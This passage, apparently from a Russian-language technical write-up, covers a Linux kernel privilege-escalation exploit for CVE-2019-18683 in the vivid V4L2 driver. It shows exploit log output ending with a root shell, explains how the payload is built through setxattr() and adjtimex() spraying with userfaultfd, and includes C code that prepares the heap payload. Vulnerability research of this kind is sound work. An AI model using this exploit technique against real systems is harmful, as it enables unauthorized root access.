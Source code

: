 ```
 [+] UFFD_EVENT_PAGEFAULT for uffd 3 on address = 0x7f8c9e9b1000: 44 faults collected
 [+] fault_handler for uffd 3 passed the barrier
 [+] and now fatality: run the shell command as root!
```

## Анатомия полезной нагрузки эксплойта

В предыдущем разделе было описано управление (оркестрация, можно сказать) потоками в эксплойте. Было упомянуто, что полезная нагрузка создается:
 1. `sprayer`-потоками в ядерной куче с помощью системного вызова `setxattr()` с настроенным `userfaultfd()`;
 2. `racer`-потоками в ядерном стеке с помощью системного вызова `adjtimex()` с настроенным `userfaultfd()`. Данный системный вызов был выбран из-за того, что он выполняет копирование данных в стек ядра с помощью `copy_from_user()`.

Полезная нагрузка эксплойта состоит из трех частей:
  1. структура `vb2_buffer` в ядерной куче,
  2. структура `vb2_queue` в ядерном стеке,
  3. структура `vb2_mem_ops` в ядерном стеке.

Далее приведен код, который создает перечисленные структуры. В начале эксплойта данные для них подготавливаются в пользовательском адресном пространстве. Так инициализируется память, содержимое которой будет скопировано в ядерную кучу с помощью `setxattr()`:

```c
#define MMAP_SZ 0x2000
#define PAYLOAD_SZ 504

void init_heap_payload()
{
	struct vivid_buffer *vbuf = NULL;
	struct vb2_plane *vplane = NULL;

	for_heap = mmap(NULL, MMAP_SZ, PROT_READ | PROT_WRITE,
					MAP_SHARED | MAP_ANONYMOUS, -1, 0);
	if (for_heap == MAP_FAILED)
		err_exit("[-] mmap");

	printf(" [+] payload for_heap is mmaped to %p\n", for_heap);

	/* Don't touch the second page (needed for userfaultfd) */
	memset(for_heap, 0, PAGE_SIZE);

	xattr_addr = for_heap + PAGE_SIZE - PAYLOAD_SZ;

	vbuf = (struct vivid_buffer *)xattr_addr;

	vbuf->vb.vb2_buf.num_planes = 1;
	vplane = vbuf->vb.vb2_buf.planes;
	vplane->bytesused = 16;
	vplane->length = 16;
	vplane->min_length = 16;

	printf(" [+] vivid_buffer of size %lu is at %p\n",
					sizeof(struct vivid_buffer), vbuf);
}
```


[0]: https://nvd.nist.gov/vuln/detail/CVE-2019-18683
[0.1]: https://www.offensivecon.org/speakers/2020/alexander-popov.html
[0.2]: https://elixir.bootlin.com/linux/v5.4/source/drivers/media/platform/vivid
[1]: https://youtu.be/mb4YHyLy0Zc
[1.1]: https://www.kernel.org/doc/html/latest/media/v4l-drivers/vivid.html
[2]: https://www.openwall.com/lists/oss-security/2019/11/02/1
[3]: https://github.com/google/syzkaller/
[4]: https://lore.kernel.org/lkml/CAHk-=wgE-veRb7+mw9oMmsD97BLnL+q8Gxu0QRrK65S2yQfMdQ@mail.gmail.com/
[5]: https://lore.kernel.org/lkml/20200116140218.1328022-1-alex.popov@linux.com/T/#u
[6]: https://lore.kernel.org/lkml/20200116095220.7368a604@gandalf.local.home/
[7]: https://lore.kernel.org/lkml/20200117225900.16340-1-alex.popov@linux.com/T/#u
[9]: https://duasynt.com/blog/linux-kernel-heap-spray
[10]: https://twitter.com/andreyknvl
[11]: https://github.com/xairy
[12]: https://www.ptsecurity.com/ww-en/
[13]: https://grsecurity.net/features
[14]: https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety